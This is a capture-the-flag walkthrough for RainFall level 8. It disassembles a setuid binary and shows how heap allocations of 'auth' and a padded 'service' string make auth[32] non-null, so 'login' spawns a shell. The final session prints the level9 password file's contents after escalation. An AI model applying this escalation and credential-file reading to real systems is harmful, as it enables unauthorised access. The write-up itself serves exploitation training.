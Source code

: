 # Level 8

- Once logged in, you will see a binary `level8`

```
[???]$ ssh localhost -p 4242 -l level8
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level8@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```


let's run this and see what this does

```
level8@RainFall:~$ ls
level8
level8@RainFall:~$ ./level8
(nil), (nil)
aaaaaaaaaaaaaaaaaaaaa
(nil), (nil)
```

okay, seems little differnt from past levels.

By taking a look at the binary, there is only main function

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048564  main
[...]
```

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
[...]
0x08049aac  auth
0x08049ab0  service
```

there is a global variable `auth`, and `service`, which might be a hint to the problem.


let's take a look at the main function

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048564 <+0>:	push   ebp
   0x08048565 <+1>:	mov    ebp,esp
   0x08048567 <+3>:	push   edi
   0x08048568 <+4>:	push   esi
   0x08048569 <+5>:	and    esp,0xfffffff0
   0x0804856c <+8>:	sub    esp,0xa0
   0x08048572 <+14>:	jmp    0x8048575 <main+17>
   0x08048574 <+16>:	nop
   0x08048575 <+17>:	mov    ecx,DWORD PTR ds:0x8049ab0
   0x0804857b <+23>:	mov    edx,DWORD PTR ds:0x8049aac
   0x08048581 <+29>:	mov    eax,0x8048810
   0x08048586 <+34>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804858a <+38>:	mov    DWORD PTR [esp+0x4],edx
   0x0804858e <+42>:	mov    DWORD PTR [esp],eax
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    eax,ds:0x8049a80
   0x0804859b <+55>:	mov    DWORD PTR [esp+0x8],eax
   0x0804859f <+59>:	mov    DWORD PTR [esp+0x4],0x80
   0x080485a7 <+67>:	lea    eax,[esp+0x20]
   0x080485ab <+71>:	mov    DWORD PTR [esp],eax
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:	test   eax,eax
   0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    eax,[esp+0x20]
   0x080485bf <+91>:	mov    edx,eax
   0x080485c1 <+93>:	mov    eax,0x8048819
   0x080485c6 <+98>:	mov    ecx,0x5
   0x080485cb <+103>:	mov    esi,edx
   0x080485cd <+105>:	mov    edi,eax
   0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080485d1 <+109>:	seta   dl
   0x080485d4 <+112>:	setb   al
   0x080485d7 <+115>:	mov    ecx,edx
   0x080485d9 <+117>:	sub    cl,al
   0x080485db <+119>:	mov    eax,ecx
   0x080485dd <+121>:	movsx  eax,al
   0x080485e0 <+124>:	test   eax,eax
   0x080485e2 <+126>:	jne    0x8048642 <main+222>
   0x080485e4 <+128>:	mov    DWORD PTR [esp],0x4
   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:	mov    ds:0x8049aac,eax
   0x080485f5 <+145>:	mov    eax,ds:0x8049aac
   0x080485fa <+150>:	mov    DWORD PTR [eax],0x0
   0x08048600 <+156>:	lea    eax,[esp+0x20]
   0x08048604 <+160>:	add    eax,0x5
   0x08048607 <+163>:	mov    DWORD PTR [esp+0x1c],0xffffffff
   0x0804860f <+171>:	mov    edx,eax
   0x08048611 <+173>:	mov    eax,0x0
   0x08048616 <+178>:	mov    ecx,DWORD PTR [esp+0x1c]
   0x0804861a <+182>:	mov    edi,edx
   0x0804861c <+184>:	repnz scas al,BYTE PTR es:[edi]
   0x0804861e <+186>:	mov    eax,ecx
   0x08048620 <+188>:	not    eax
   0x08048622 <+190>:	sub    eax,0x1
   0x08048625 <+193>:	cmp    eax,0x1e
   0x08048628 <+196>:	ja     0x8048642 <main+222>
   0x0804862a <+198>:	lea    eax,[esp+0x20]
   0x0804862e <+202>:	lea    edx,[eax+0x5]
   0x08048631 <+205>:	mov    eax,ds:0x8049aac
   0x08048636 <+210>:	mov    DWORD PTR [esp+0x4],edx
   0x0804863a <+214>:	mov    DWORD PTR [esp],eax
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:	lea    eax,[esp+0x20]
   0x08048646 <+226>:	mov    edx,eax
   0x08048648 <+228>:	mov    eax,0x804881f
   0x0804864d <+233>:	mov    ecx,0x5
   0x08048652 <+238>:	mov    esi,edx
   0x08048654 <+240>:	mov    edi,eax
   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:	seta   dl
   0x0804865b <+247>:	setb   al
   0x0804865e <+250>:	mov    ecx,edx
   0x08048660 <+252>:	sub    cl,al
   0x08048662 <+254>:	mov    eax,ecx
   0x08048664 <+256>:	movsx  eax,al
   0x08048667 <+259>:	test   eax,eax
   0x08048669 <+261>:	jne    0x8048678 <main+276>
   0x0804866b <+263>:	mov    eax,ds:0x8049aac
   0x08048670 <+268>:	mov    DWORD PTR [esp],eax
   0x08048673 <+271>:	call   0x8048420 <free@plt>
   0x08048678 <+276>:	lea    eax,[esp+0x20]
   0x0804867c <+280>:	mov    edx,eax
   0x0804867e <+282>:	mov    eax,0x8048825
   0x08048683 <+287>:	mov    ecx,0x6
   0x08048688 <+292>:	mov    esi,edx
   0x0804868a <+294>:	mov    edi,eax
   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:	seta   dl
   0x08048691 <+301>:	setb   al
   0x08048694 <+304>:	mov    ecx,edx
   0x08048696 <+306>:	sub    cl,al
   0x08048698 <+308>:	mov    eax,ecx
   0x0804869a <+310>:	movsx  eax,al
   0x0804869d <+313>:	test   eax,eax
   0x0804869f <+315>:	jne    0x80486b5 <main+337>
   0x080486a1 <+317>:	lea    eax,[esp+0x20]
   0x080486a5 <+321>:	add    eax,0x7
   0x080486a8 <+324>:	mov    DWORD PTR [esp],eax
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    ds:0x8049ab0,eax
   0x080486b5 <+337>:	lea    eax,[esp+0x20]
   0x080486b9 <+341>:	mov    edx,eax
   0x080486bb <+343>:	mov    eax,0x804882d
   0x080486c0 <+348>:	mov    ecx,0x5
   0x080486c5 <+353>:	mov    esi,edx
   0x080486c7 <+355>:	mov    edi,eax
   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:	seta   dl
   0x080486ce <+362>:	setb   al
   0x080486d1 <+365>:	mov    ecx,edx
   0x080486d3 <+367>:	sub    cl,al
   0x080486d5 <+369>:	mov    eax,ecx
   0x080486d7 <+371>:	movsx  eax,al
   0x080486da <+374>:	test   eax,eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    eax,ds:0x8049aac
   0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:	test   eax,eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    eax,ds:0x8049aa0
   0x08048704 <+416>:	mov    edx,eax
   0x08048706 <+418>:	mov    eax,0x804883b
   0x0804870b <+423>:	mov    DWORD PTR [esp+0xc],edx
   0x0804870f <+427>:	mov    DWORD PTR [esp+0x8],0xa
   0x08048717 <+435>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871f <+443>:	mov    DWORD PTR [esp],eax
   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:	jmp    0x8048574 <main+16>
   0x0804872c <+456>:	nop
   0x0804872d <+457>:	mov    eax,0x0
   0x08048732 <+462>:	lea    esp,[ebp-0x8]
   0x08048735 <+465>:	pop    esi
   0x08048736 <+466>:	pop    edi
   0x08048737 <+467>:	pop    ebp
   0x08048738 <+468>:	ret
End of assembler dump.
```

It is a huge assembly code, but once decompiling them, the program functions


- it first prints the address of auth and service, and prints while looping.

- getting an input from user, with looping
- checks first input if it' a string consistof `auth (5 chars)`
	- if true, it allocates the address on the heap

- if the input is `reset`, it frees the global variable 'auth'

- if the input is `service`, it duplicates into the globial variable 'service'

- if the input is 'login', there is another conditional statement within:
	- if the auth[32] is not NULL, it executes `system("/bin/sh")`
	- else, it only prints `Password:\n` to stdout.


let's run the program and see how it works

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
login
Password:
0x804a008, (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

giving an input of service after putting the auth, we can see the address of the service. This is because of the malloc(), each pointer is placed right after the prev ones with some padding in between.

So, to solve out the problem, in other words, to put 'auth[32]' value set not to zero, we just need to put 32th character into not null, which means, put 16th character of after service, into not null.

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service               a <-a on 16th padding
0x804a008, 0x804a018
login
$ id
uid=2008(level8) gid=2008(level8) euid=2009(level9) egid=100(users) groups=2009(level9),100(users),2008(level8)
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
